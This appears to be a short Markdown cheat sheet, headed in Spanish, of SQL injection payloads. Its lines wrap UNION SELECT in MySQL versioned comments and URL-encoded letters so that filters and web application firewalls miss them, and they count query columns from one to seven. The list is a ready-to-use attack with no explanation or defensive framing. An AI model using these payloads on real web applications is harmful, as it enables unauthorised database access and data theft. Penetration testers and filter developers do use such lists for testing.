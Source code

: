 ### bypass usando comentarios
```bash
/*!UNION*/ /*!SELECT*/ 1
/*!UNION*/ /*!SELECT*/ 1,2
/*!UNION*/ /*!SELECT*/ 1,2,3
/*!UNION*/ /*!SELECT*/ 1,2,3,4
/*!UNION*/ /*!SELECT*/ 1,2,3,4,5
/*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
/*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7

/*!12345UNION*/ /*!12345SELECT*/ 1
/*!12345UNION*/ /*!12345SELECT*/ 1,2
/*!12345UNION*/ /*!12345SELECT*/ 1,2,3
/*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
/*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
/*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
/*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7

/*!12345UNION*/(/*!12345SELECT*/ 1)
/*!12345UNION*/(/*!12345SELECT*/ 1,2)
/*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
/*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
/*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
/*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
/*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)
```

### bypass usando comentarios and url encoding
```bash
/*!%55nion*/%20/*!%53elect*/1
/*!%55nion*/%20/*!%53elect*/%201,2
/*!%55nion*/%20/*!%53elect*/%201,2,3
/*!%55nion*/%20/*!%53elect*/%201,2,3,4
/*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
/*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
/*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7

/*!12345%55nion*/ /*!12345%53elect*/ 1
/*!12345%55nion*/ /*!12345%53elect*/ 1,2
/*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
/*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
/*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
/*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
/*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7

/*!12345%55nion*/(/*!12345%53elect*/ 1)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
/*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)
```
